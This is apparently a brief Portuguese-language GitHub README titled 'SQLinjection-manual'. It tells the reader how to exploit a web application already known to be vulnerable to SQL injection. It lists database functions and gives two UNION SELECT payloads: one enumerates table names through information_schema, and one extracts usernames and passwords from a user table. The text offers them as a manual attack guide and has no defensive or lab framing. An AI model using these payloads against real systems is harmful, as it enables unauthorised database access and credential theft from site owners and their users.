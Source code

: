 # SQLinjection-manual
parâmetros para explorar SQLinjection Manualmente

## depois de ter a certeza que uma aplicação web está vulnerável a sql injection, você deve querer acessar o banco de dados:
# parâmetros
```
database() -> serve para mostrar o nome do banco de dados
```
```
version() -> serve para mostrar a versão do banco de dados
```

# exemplo de uso
```
-3 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() limit 0,1
```
```
-3 union select 1,uname,pass from user
```
